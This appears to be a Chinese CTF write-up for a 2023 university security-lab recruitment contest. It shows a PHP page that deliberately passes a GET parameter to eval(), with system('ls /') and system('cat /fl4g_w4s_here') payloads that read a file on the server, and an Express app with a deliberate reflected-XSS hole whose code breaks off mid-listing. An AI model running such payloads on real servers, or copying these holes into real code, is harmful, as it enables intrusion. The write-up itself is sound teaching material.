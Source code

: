 ## 比赛地址
[XHU网络安全实验室招新赛(2023)](http://112.74.181.184/games/1)

## WEB
### ez_php
> 这段PHP代码是一个简单的Web脚本，允许用户通过HTTP GET请求传递一个名为 "c" 的参数，并将该参数的值传递给 `eval()` 函数执行

```php
<?php
error_reporting(0);  // 设置PHP错误报告级别为0，即不显示错误信息

if(isset($_GET['c'])){ // 如果HTTP GET请求中包含参数 'c'
    $c = $_GET['c'];   // 获取参数 'c' 的值
    eval($c);          // 使用eval()函数执行参数 'c' 的值作为PHP代码
} else {
    highlight_file(__FILE__); // 如果没有参数 'c'，则显示当前脚本文件的源代码
}

```
> 这段代码的问题在于，它允许用户输入任意的PHP代码并将其作为参数 'c' 的值传递给 `eval()` 函数执行，这可能导致安全风险，因为攻击者可以利用这个漏洞执行恶意代码。
```php
?c=system('ls /');
bin boot dev etc fl4g_w4s_here home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var

?c=system('cat /fl4g_w4s_here');
covteam{welcome_to_covteam}
```
1.   在 PHP 中，`system` 是一个用于执行系统命令的函数。它允许你在 PHP 脚本中调用操作系统级别的命令，并且可以获取命令的输出。`system` 函数的基本语法如下：
2.  system(command, return_var);
	- `command` 是要执行的系统命令，可以是一个字符串。
	- `return_var` 是一个可选参数，它将用于存储命令的返回值。如果提供了这个参数，命令的返回值将被存储在这个变量中
### ez_xss
app.js
> 这段代码是一个使用 Node.js 和 Express 框架编写的简单 Web 应用程序。下面是对代码的中文注释：
```java
import express from "express"; // 导入 Express 框架
import { visit } from './bot.js'; // 导入 bot.js 文件中的 visit 函数
import bodyParser from "body-parser"; // 导入 body-parser 模块，用于解析请求体
const FLAG = process.env.FLAG || 'covteam{DUMMY}'; // 从环境变量中获取 FLAG 或默认为 'covteam{DUMMY}'
const COOKIE = process.env.COOKIE || 'DUMMY'; // 从环境变量中获取 COOKIE 或默认为 'DUMMY'
import cookieParser from "cookie-parser"; // 导入 cookie-parser 模块，用于解析 cookie

const app = express(); // 创建 Express 应用程序实例
app.use(cookieParser()); // 使用 cookie-parser 中间件，以便解析请求中的 cookie
app.use(bodyParser.urlencoded({ extended: true })); // 使用 body-parser 中间件，以便解析请求体中的表单数据

const port = 4242; // 定义应用程序监听的端口号

app.get('/', (req, res) => {
	var name = "xss"
	if (req.query.name) {
		name = req.query.name;
	}
	
	console.log(name)
	res.send(`<h1>Can you get FLAG? ${name}?</h1>`); // 处理根路径的 GET 请求，根据查询参数显示消息
});

app.get('/getflag', (req, res) => {
	var a = req.cookies.user;
	if (req.cookies.user == COOKIE) {
```